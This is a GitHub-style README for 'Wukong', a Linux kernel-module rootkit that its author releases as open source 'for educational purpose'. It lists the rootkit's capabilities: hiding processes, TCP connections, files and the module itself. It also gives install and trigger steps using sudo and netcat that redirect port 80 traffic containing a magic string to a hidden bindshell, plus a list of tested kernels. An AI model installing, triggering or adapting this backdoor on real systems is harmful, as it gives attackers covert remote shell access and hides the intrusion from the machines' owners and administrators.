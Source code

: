 # Wukong: A LKM rootkit for Linux kernel 2.6.x, 3.x and 4.x<br />
<p>
	&nbsp;&nbsp;&nbsp;&nbsp;The idea of wukong is from a comercail Linux Backdoor software, designed for a hacking team in early 2015 for legal using. Now for educational perpose, I will release an open source version. Please call me good man:).
</p>
<p>
	<strong>&nbsp;&nbsp;&nbsp;&nbsp; If you want to buy me a bottle of beer, please contact me via hanj4096@gmail.com.</strong> 
</p>
<br />
<h2>
	<span style="color:#E53333;">Note:</span> 
</h2>
<span style="color:#E53333;"><strong>&nbsp;&nbsp;&nbsp;&nbsp;This kernel rootkit is just for educational purpose and it shouldn't be used for any illegal activities, use this at your own risk.</strong></span><br />
<br />
<br />
<br />
<h2>
	Function
</h2>
&nbsp;&nbsp;&nbsp;&nbsp;1. Hide Linux Process.<br />
&nbsp;&nbsp;&nbsp;&nbsp;2. Hide TCP connection.<br />
&nbsp;&nbsp;&nbsp;&nbsp;3. Hide File/Directory.<br />
&nbsp;&nbsp;&nbsp;&nbsp;4. Hide wukong.ko.<br />
&nbsp;&nbsp;&nbsp;&nbsp;5. Redirect TCP connection to backdoor server by using the specific confidential password.<br />
<br />
<h2>
	Usage
</h2>
&nbsp;&nbsp;&nbsp;&nbsp;1. Environment:<br />
&nbsp;&nbsp;&nbsp;&nbsp;ubunt-14.04 (1.1.1.33) --- (1.1.1.1)ubunt-14.04 &nbsp;<br />
&nbsp;&nbsp;&nbsp;&nbsp;(client)&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; (server)<br />
<br />
&nbsp;&nbsp;&nbsp;&nbsp;2. Test step:<br />
&nbsp;&nbsp;&nbsp;&nbsp;a. on server<br />
&nbsp;&nbsp;&nbsp;&nbsp;cd wukong/<br />
&nbsp;&nbsp;&nbsp;&nbsp;sudo ./install.pl<br />
&nbsp;&nbsp;&nbsp;&nbsp;sudo nc -k -l 80<br />
<br />
&nbsp;&nbsp;&nbsp;&nbsp;b. on client<br />
&nbsp;&nbsp;&nbsp;&nbsp;nc 1.1.1.1 80<br />
&nbsp;&nbsp;&nbsp;&nbsp;http<br />
&nbsp;&nbsp;&nbsp;&nbsp;ifconfig<br />
&nbsp;&nbsp;&nbsp;&nbsp;PS：The connection will be redirected to bindshell<br />
<br />
&nbsp;&nbsp;&nbsp;&nbsp;nc 1.1.1.1 80<br />
&nbsp;&nbsp;&nbsp;&nbsp;111111<br />
&nbsp;&nbsp;&nbsp;&nbsp;PS: a rst will be received.<br />
<br />
&nbsp;&nbsp;&nbsp;&nbsp;nc 1.1.1.1 80<br />
&nbsp;&nbsp;&nbsp;&nbsp;111111<br />
&nbsp;&nbsp;&nbsp;&nbsp;aaaaaa<br />
&nbsp;&nbsp;&nbsp;&nbsp;PS: The connection will be connected with tcp 80.<br />
<br />
&nbsp;&nbsp;&nbsp;&nbsp;3. Result:<br />
&nbsp;&nbsp;&nbsp;&nbsp;a. Bindshell file is hidden.<br />
&nbsp;&nbsp;&nbsp;&nbsp;b. Tcp 8000 connection is hidden.<br />
&nbsp;&nbsp;&nbsp;&nbsp;c. Bindshell process is hidden<br />
&nbsp;&nbsp;&nbsp; d. wukong.ko is hidden<br />
&nbsp;&nbsp;&nbsp;&nbsp;e. If "http" is the first four bytes to TCP 80, connection will be established with bindshell.<br />
<br />
<br />
<h2>
	Tested OS:
</h2>
&nbsp;&nbsp;&nbsp;&nbsp;CentOS-5.5-i386-bin-DVD.iso<br />
&nbsp;&nbsp;&nbsp; &nbsp;&nbsp;&nbsp;&nbsp;Linux&nbsp; 2.6.18-408.el5 #1 SMP Tue Jan 19 09:13:33 EST 2016 i686 i686 i386 GNU/Linux<br />
&nbsp;&nbsp;&nbsp;&nbsp;CentOS-5.5-x86_64-bin-DVD<br />
&nbsp;&nbsp;&nbsp; &nbsp;&nbsp;&nbsp;&nbsp;Linux 2.6.18-194.el5 #1 SMP Fri Apr 2 14:58:14 EDT 2010 x86_64 x86_64 x86_64 GNU/Linux<br />
&nbsp;&nbsp;&nbsp;&nbsp;ubuntu-14.04.2-desktop-i386.iso<br />
&nbsp;&nbsp;&nbsp; &nbsp;&nbsp;&nbsp;&nbsp;Linux&nbsp; 3.16.0-30-generic #40~14.04.1-Ubuntu SMP Thu Jan 15 17:45:15 UTC 2015 i686 i686 i686 GNU/Linux<br />
&nbsp;&nbsp;&nbsp;&nbsp;ubuntu-14.04.2-desktop-amd64.iso&nbsp; &nbsp;<br />
&nbsp;&nbsp;&nbsp; &nbsp;&nbsp;&nbsp;&nbsp;Linux&nbsp; 3.16.0-30-generic #40~14.04.1-Ubuntu SMP Thu Jan 15 17:43:14 UTC 2015 x86_64 x86_64 x86_64 GNU/Linux<br />
&nbsp;&nbsp;&nbsp;&nbsp;ubuntu-14.04.3-desktop-i386.iso<br />
&nbsp;&nbsp;&nbsp; &nbsp;&nbsp;&nbsp;&nbsp;Linux&nbsp; 3.19.0-25-generic #26~14.04.1-Ubuntu SMP Fri Jul 24 21:18:00 UTC 2015 i686 i686 i686 GNU/Linux<br />
&nbsp;&nbsp;&nbsp;&nbsp;ubuntu-14.04.3-desktop-amd64.iso<br />
&nbsp;&nbsp;&nbsp; &nbsp;&nbsp;&nbsp;&nbsp;Linux&nbsp; 3.19.0-25-generic #26~14.04.1-Ubuntu SMP Fri Jul 24 21:16:20 UTC 2015 x86_64 x86_64 x86_64 GNU/Linux<br />
<br />
<br />
<h2>
	ToDo:
</h2>
&nbsp;&nbsp;&nbsp; Do performance tuning, make it can work on Linux server with large traffic.<br />
&nbsp;&nbsp;&nbsp; Adding more features.
